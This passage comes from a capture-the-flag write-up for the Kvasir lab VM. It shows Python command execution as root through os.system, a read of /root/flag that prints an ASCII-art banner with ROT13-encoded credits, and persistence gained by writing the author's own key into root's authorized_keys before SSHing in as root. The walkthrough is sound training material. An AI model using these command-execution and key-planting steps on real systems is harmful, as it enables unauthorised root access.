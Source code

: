 ```bash
socket.error: [Errno 32] Broken pipe
kefka@adm:~$
```

It seems like I have a kind of python shell? After a bit of fiddling around, I eventually started getting something usefull out of it:

```bash
0W6U6vwG4W1V
> import os; os.system('id');
uid=0(root) gid=0(root) groups=0(root)
```

Yay :) I went straight for the `cat /root/flag`:

```bash
> import os; os.system('cat /root/flag');
    _  __                             _            
   | |/ /   __ __   __ _     ___     (_)      _ _  
   | ' <    \ I /  / _` |   (_-<     | |     | '_| 
   |_|\_\   _\_/_  \__,_|   /__/_   _|_|_   _|_|_  
  _|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""| 
  "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Pbatenghyngvbaf ba orngvat Xinfve - V ubcr lbh rawblrq
gur evqr.  Gnxr uvf oybbq, zvk jvgu ubarl naq qevax 
gur Zrnq bs Cbrgel...

Ovt fubhg bhg gb zl orgn grfgref: @oneeronf naq @GurPbybavny.
Fcrpvny gunaxf gb Onf sbe uvf cngvrapr qhevat guvf raqrnibhe.

Srry serr gb cvat zr jvgu gubhtugf/pbzzragf ba
uggc://jv-sh.pb.hx, #IhyaUho VEP be Gjvggre.

  enfgn_zbhfr(@_EnfgnZbhfr)
> 
```

Err, oh [@_RastaMouse](https://twitter.com/_RastaMouse) you!! What is this? I figured I need to get a proper shell going to make life a little easier for myself. I did this by using the command execution we have now to prepare a authorized_keys file for root for me, adding the public key of the key pair I initially created. Then, finally, I SSH'd in as root:

```bash
root@kali:~# proxychains ssh root@127.0.0.1 -i kvasir_key
ProxyChains-3.1 (http://proxychains.sf.net)
Linux adm 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov  9 16:57:16 2014 from localhost
root@adm:~#
```
